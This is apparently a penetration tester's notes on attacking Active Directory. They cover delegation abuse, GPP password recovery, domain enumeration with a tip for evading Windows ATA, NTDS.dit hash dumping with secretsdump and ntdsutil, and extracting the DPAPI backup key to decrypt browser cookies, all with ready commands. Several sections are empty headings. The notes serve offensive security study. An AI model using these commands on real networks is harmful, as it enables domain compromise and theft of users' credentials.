 ```yaml
---
date: 2020-04-09 23:00:00 +0000
title: Active Directory Enumeration and Exploitation
description: Notes on AD Enumeration and Exploitation
categories: ActiveDirectory

---
```

### SharpView

SharpView has a number of useful functions that can be used to get information:

    

### Kerberos Exploitation

#### Unconstrained Delegation

#### Constrained Delegation

If a target computer has the "msDS-AllowedToDelegateTo" and includes an account which an attacker controls(either through ACLs or local administrator rights), then they can compromise the target computer through s4U2Self and S4U2Proxy. Additionally, if computer account NTLM credentials can be relayed to a DC over LDAP, then it is possible to use ntlmrelayx to modify the "msDS-AllowedToDelegateTo" propery in order to include a computer account under control of an attacker. This means that an attacker can then compromise this relayed computer.

An example of creating these types of impersonation tickets with Impacket is shown below:

    proxychains getST.py -dc-ip ip_address -spn cifs/DC01 'DOMAIN/WS01$' -hashes 'LM:NT' -impersonate domain_account

#### Constrained Resource Delegation

Uses "msDS-AllowedToActOnBehalfOfOtherIdentity" property on computer object. An attacker has "GenericWrite" over the target computer object, they can modify the "AllowedToAct" and include an SPN which they control.

#### SPNs

#### ASRepRoast

### GPP Passwords

The following tool can be used to pull down the GPP preference file from a domain controller in order to retrieve the password, this does not rely on policy files being cached on the target host:

    execute-assembly Net-GPPPassword

### AD User Enumeration

    execute-assembly SharpView.exe Get-NetUser -Name username

    execute-assembly SharpView.exe Get-NetUser -Properties manager,department

#### SharpHound

SharpHound can be used to enumerate all collections from a domain, using the following command:

    execute-assembly ADEnum.exe -c All --zipFileName ad -Domain

To avoid querying the domain controllers in cases where Windows ATA is in use, use the -ExcludeDC command.

### Dumping NTDS.dit

A number of ways can be used to dump the NTDS.dit database depending on the situation. If remote code execution is valid, then impacket modules such as secretdump through proxychains, however this process could be time consuming.

    proxychains secretdump.py -just-dc-ntlm domain/user@dc_ip

Another approach is to use ntdsutil and copy the folder from the DC:

    ntdsutil "ac i ntds" "ifm" "create full c:\temp\ntdsdump" q q

### Dumping DPAPI Backup Keys

.\\SharpChrome.exe backupkey /server:dc01 /file:key.pvk

    [*] Action: Retrieve domain DPAPI backup key

    [*] Using server                     : dc01

    [*] Preferred backupkey Guid         : [guid]

    [*] Full preferred backupKeyName     : [backupkeyname]

    [*] Backup key written to            : key.pvk

    .\SharpChrome.exe cookies /server:workstation /pvk:key.pvk